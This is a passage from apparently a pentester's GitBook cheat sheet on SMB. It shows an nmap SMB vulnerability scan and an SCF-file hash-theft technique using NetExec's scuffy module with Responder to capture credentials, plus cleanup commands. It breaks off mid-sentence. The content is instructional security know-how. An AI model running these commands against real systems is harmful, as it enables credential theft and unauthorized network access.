 {% tab title="Nmap Vuln Scan" %}
```bash
sudo nmap -script=smb-vuln\* -p445 <target-IP>
```
{% endtab %}
{% endtabs %}

### Hashes

All described methods (SCF, LNK, SC) require `WRITE` access to a share/directory:

* If `WRITE` access to a share is available, [NetExec](../../tl-dr/active-directory/ad-tools/netexec.md) modules can be used for automation.
* If `WRITE` access is only available within a `READABLE` share, the process must be done manually.

For stealing the hash, **the user must only browse the share, not interact with the file**.

{% hint style="warning" %}
Share permissions can be configured to only allow folders to be created, not files; `nxc` will flag `WRITE` access in those cases.
{% endhint %}

{% tabs %}
{% tab title="SCF" %}
{% hint style="warning" %}
Requires `WRITE` access to the `Users` share!
{% endhint %}

The **Shell Command File (SCF)** is a Windows file format used to define simple Explorer shell commands — kind of like shortcuts, but more primitive (read more [here](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)).

{% code overflow="wrap" %}
```bash
# Create the SCF file
nxc smb <target-ip> -u 'guest' -p '' -M scuffy -o NAME=README SERVER=<smb-server-ip>
```
{% endcode %}

Monitor the traffic (MSF's `auxiliary/server/capture/smb` can also be used):

{% code overflow="wrap" %}
```bash
sudo responder -I tun0
```
{% endcode %}

Clean up:

{% code overflow="wrap" %}
```bash
nxc smb <target-ip> -u 'guest' -p '' -M scuffy -o NAME=README SERVER=<smb-server-ip> CLEANUP=True
```
{% endcode %}

If a share is [locally mounted](smb-139-445.md#operations) and `WRITE` access is available for the `SMB/Users/WritableDir` folder, but not for the `Users` share, we can create an SCF file:
